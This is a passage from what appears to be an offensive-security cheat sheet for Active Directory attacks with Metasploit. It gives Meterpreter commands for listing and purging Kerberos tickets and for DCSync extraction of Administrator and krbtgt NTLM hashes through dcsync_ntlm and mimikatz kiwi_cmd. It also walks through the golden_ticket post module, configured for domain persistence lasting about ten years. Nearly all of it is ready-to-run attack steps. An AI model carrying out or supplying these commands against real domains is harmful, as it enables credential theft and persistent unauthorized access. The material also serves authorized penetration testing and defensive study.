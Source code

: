 - You can see the same golden ticket has been imported.

```
msf > klist

meterpreter > kerberos_ticket_list
```

- Purge the golden tickets

`meterpreter > kerberos_ticket_purge`

- **Using dcsync_ntlm**

```
meterpreter > dcsync_ntlm Administrator

meterpreter > dcsync_ntlm krbtgt

meterpreter > dcsync_ntlm <username>
```

- **You can execute mimikatz commands**

```
meterpreter > kiwi_cmd '"lsadump::dcsync /user:administrator"'

meterpreter > kiwi_cmd '"lsadump::dcsync /user:krbtgt"'

meterpreter > kiwi_cmd '"lsadump::dcsync /user:<username>"'
```

#### 1.3.2 - Modules

##### 1.3.2.1 - Post

- **Create a golden ticket for persistence**

```
msf exploit(multi/handler) > use post/windows/escalate/golden_ticket

msf post(windows/escalate/golden_ticket) > options

Module options (post/windows/escalate/golden_ticket):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   DOMAIN                        no        Target Domain
   Domain SID                    no        Domain SID
   END_IN       87608            yes       End in ... Duration in hours, default 10 YEARS (~87608 hours)
   GROUPS                        no        ID of Groups (Comma Separated)
   ID                            no        Target User ID
   KRBTGT_HASH                   no        KRBTGT NTLM Hash
   SESSION                       yes       The session to run this module on
   USE          false            yes       Use the ticket in the current session
   USER                          no        Target User

msf post(windows/esclate/golden_ticket) > set krbtgt_hash <ntlm_hash>

msf post(windows/esclate/golden_ticket) > set domain <domain_name>

msf post(windows/esclate/golden_ticket) > set domain sid <domain_sid>
```
